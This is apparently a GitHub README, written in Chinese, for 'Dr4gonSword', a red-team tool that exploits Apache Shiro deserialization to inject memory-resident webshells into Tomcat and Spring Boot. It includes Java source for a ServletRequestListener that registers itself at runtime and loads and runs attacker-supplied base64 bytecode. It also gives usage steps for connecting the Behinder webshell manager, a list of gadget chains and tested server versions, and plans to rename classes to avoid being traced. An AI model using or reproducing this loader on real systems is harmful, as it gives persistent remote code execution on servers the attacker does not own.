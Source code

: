 # Dr4gonSword

**仅供交流学习漏洞原理,请勿用于非法用途**

- [Shiro](#shiro)
  + [使用方法](#----)
  + [利用链](#---)
  + [内存马和回显方法](#--------)
  + [本地测试过的中间件版本](#-----------)

- [更新记录](#----)
  * [0.0.4](#004)
  * [0.0.3](#003)
  * [0.0.2](#002)
- [未来更新(可能)](#--------)
- [感谢](#--)

**仅供交流学习漏洞原理,请勿用于非法用途**

版本0.0.4

在红队中发现现有shiro利用工具有些时候会注入内存马失败,于是自己写下了这个小工具,也是为了更好地了解漏洞原理与利用方式

因为刚入门JAVA,所以肯定还有很多不足,代码也写得比较丑陋

目前只有Shiro,后续随着学习会应该加入更多漏洞(大概)

## Shiro

### 使用方法

点击Inject进行注入,然后才能连接冰蝎或者执行命令

连接冰蝎的时候加get参数stage=s

![2](./images/2.png)

![1](./images/1.png)

### 利用链

Commons-CollectionsK1_1 和K1的区别基本上只是我用的是InstantiateTransformer,K1用的是InvokerTransformer

总结:几乎一样

### 内存马和回显方法

使用listener注入,相比于使用servlet来说,不会被shiro拦,只要tomcat能解析的路径就能上线内存马,不用怕shirofilter匹配*的情况,例如P师傅的shirodemo环境(2021强网杯hard pentest,如下图)

![](./images/5.png)



并且defineclass直接加载了pageContext类(有的时候没有依赖导致注入失败)

另外我这边同一个listener同时实现命令执行回显和内存马,命令执行回显可以GBK编码

核心逻辑为实现一个Listener同时继承AbstractTranslet类并且实现ServletRequestListener接口来加载任意类并调用方法

```JAVA
public class Init extends AbstractTranslet implements ServletRequestListener  {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    public Init() throws Exception {
        super();
        super.namesArray = new String[]{"ccdr4gon"};
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();
        standardCtx.addApplicationEventListener(this);
    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {}
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        try {
            RequestFacade requestfacade= (RequestFacade) sre.getServletRequest();
            Field field = requestfacade.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request request = (Request) field.get(requestfacade);
            if (request.getParameter("stage").equals("init")) {
                StringBuilder sb = new StringBuilder("");
                BufferedReader br = request.getReader();
                String str;
                while ((str = br.readLine()) != null) {
                    sb.append(str);
                }
                byte[] payload = Base64.getDecoder().decode(sb.toString());
                Method defineClass = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                defineClass.setAccessible(true);
                Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), payload, 0, payload.length);
                clazz.newInstance();
            }
        }catch (Exception ignored){ }
    }
}
```

### 本地测试过的中间件版本

Tomcat 7.0.109 √

Tomcat 8.5.51 √

Tomcat 9.0.46 √

Springboot 2.3.5 √  <tomcat.version>9.0.39</tomcat.version> 

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version>

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version> shiro version 1.7.0 (gcm)

Tomcat 8.5.51 √ with commons-collections4 dependency

![3](./images/3.png)

![4](./images/4.png)

![6](./images/6.png)

# 更新记录

## 0.0.4

连接冰蝎的方式由pageContext变成map,这样可以避免遇到奇奇怪怪的依赖问题(将依赖类由defineClass注入无法完全解决依赖问题)。0.0.4版本将无法连接较低版本的Behinder 

去实习打工了几个月，一直没更新，终于离职了，毕设也有着落了，后面的时间准备学习k8s/docker和各种java中间件的漏洞

## 0.0.3

- Behinder内存马兼容性修复并且添加自定义密码(会生成一个随机密码)
- CommonsCollections4依赖的利用链(只是把.decorate改成了.lazyMap)
- 重构了controller生成payload部分的代码结构,使用factory

## 0.0.2 

- 添加Tomcat7利用链(tomcat7巨烦)
- okhttp的https证书全信任，删除了get请求的一些header（为了不触发header too large）
- 添加了GCM加密方式
- 其他记不到了的小修改

# 未来更新(可能)

- 依赖有点问题,目前我是直接把tomcat的lib全加到projectstructure里了
- 把类名改了,用下去的话总感觉会有一天接到溯源的电话
- shiro
  - ~~自定义Behinder的pass(现在还只能是默认的rebeyond,太惨了)~~ 0.0.3已更新
  -  ~~aes gcm加密方式(说实话也不知道有没有用)~~ 0.0.2已更新
  - ~~commons-collections4利用链~~  0.0.3已更新
  - commonsbeanutils利用链
- fastjson
- weblogic等等更多以后准备学习的JAVA漏洞
- 由于java流只能读取一次,okhttp库的IO目前处于能用就行的丑陋状态,之后看看怎么改改
- 看了比较新版的behinder之后这边考虑要不要把pagecontext删了(删了以后可能连不上旧版的behinder了)
- 一键清除所有listener
- 更多webshell管理器,哥斯拉等等

# 感谢

phithon

kingkk

j1anFen

Litch1

threedr3am

李三

LandGrey

Lucifaer

等公开发表过Tomcat内存马/回显以及Shiro利用方式文章的师傅

